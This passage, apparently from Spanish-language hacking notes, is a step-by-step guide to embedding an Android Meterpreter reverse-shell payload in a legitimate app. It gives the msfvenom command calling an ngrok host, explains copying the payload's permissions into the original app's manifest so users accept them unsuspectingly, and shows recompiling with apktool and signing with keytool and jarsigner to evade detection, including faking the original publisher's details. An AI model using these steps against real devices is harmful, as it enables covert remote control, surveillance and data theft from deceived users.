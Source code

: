 ```msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=17547 -o reverse.apk```
        * >Toda esta línea la podemos copiar de una línea parecida que hay más abajo y modificar lo que necesitemos, solo para simplificarlo.

![onCreate](/images/apuntes/HackingAndroid/onCreate.png)

  * Ahora tenemos que modificar el archivo "AndroidManifest.xml" (En él están los permisos que tiene la app), tenemos que colocar todos los permisos que tiene nuestro payload.
    * Buscamos los permisos que tiene nuestro payload  
     ```cat AndroidManifest.xml | grep "uses-permission"```

![PermisosAPKmaliciosa](/images/apuntes/HackingAndroid/maliciosaPermisos.png)
* 
    * Copiamos todos estos permisos y los pegamos en el archivo "AndroidManifest.xml" de la APK "original"
    * Debemos mirar si hay algún permiso duplicado para borrarlo y dejar solo 1.
  * >Lo bueno de hacer esto así es que la app no va a pedirle al usuario los permisos adicionales que le hemos añadido cuando abra la app (Si lo hará, pero ya dentro de la app y con el nombre de esta, por lo que el usuario pensará que si se lo está pidiendo la app que está ejecutando es algo normal y los aceptará).

![Permisison](/images/apuntes/HackingAndroid/permissions.png)

* Una vez todo esto realizado correctamente nos queda compilar de nuevo la APK.
  * ```java -jar apktool 2.4.1.jar b "nombre de la apk" -o "nombre que queremos llamar a la nueva apk"``` (este es el paso que fallará si usamos la versión "dirty")
  * Esto nos creará una nueva APK ya con nuestro código malicioso dentro.

![compilando](/images/apuntes/HackingAndroid/compiling.png)

* El problema que tenemos ahora que si le pasamos esta APK a nuestro dispositivo, nos lo va a detectar como maliciosa y no queremos que eso pase.
* Con la utilidad **"keytool"** (que suele venir preinstalada) vamos a generarnos una key para firmar la app y que la detecte como benigna.
  * ```keytool -genkey -keystore "nombre archivo que se va a crear" -alias "un alias para reconocerlo" -keyalg RSA -keysize 2048 -validity 1000```
    * -genkey => Para que genere una nueva key.
    * -keystore => Y el nombre de archivo que queremos crear.
    * -alias => Ponerle un alias a la key.
    * -keyalg RSA => Decirle que queremos usar el algoritmo RSA para esta key.
    * -keysize 2048 => El tamaño que queremos asignarle al algoritmo.
    * -validity => El tiempo, en días, que queremos que tenga validez la key.
  * Nos pedirá una contraeña =>**¡OJO!** es una contraseña para la key, no es la de nuestro sistema.
  * Después nos irá haciendo unas preguntas sobre quienes somos. (Para más credibilidad podemos investigar estos datos de la app que hemos cogido y colocar los mismos)
  * Ya estaría creada la key.

![keystore](/images/apuntes/HackingAndroid/keystore.png)

* Ahora con la utilidad **"jarsigner"** (que también debe venir preinstalada) vamos a firmar la app:
  * ```jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore "nombre de la key que hemos creado" "el nombre de la app con nuestro código malicioso" "el alias que le pusimos a la key"```
    * -sigalg => Le decimos el algoritmo que va a usar para la firma.
    * -digestalg => Le indicamos un algoritmo de resumen.
    * -keystore => Le indicamos el nombre del keystore que nos hemos creado previamente.
    * " " => Separado con un espacio del anterior le indicamos el nombre de la app que compilamos anteriormente ya con nuestro código malicioso dentro.
    * " " => También separado con un espacio del anterior le indicamos el alias que le pusimos a la key.
  * Nos preguntará una contraseña (que es la que le pusimos a la key anteriormente).
  * Comenzará a firmar toda la app.

```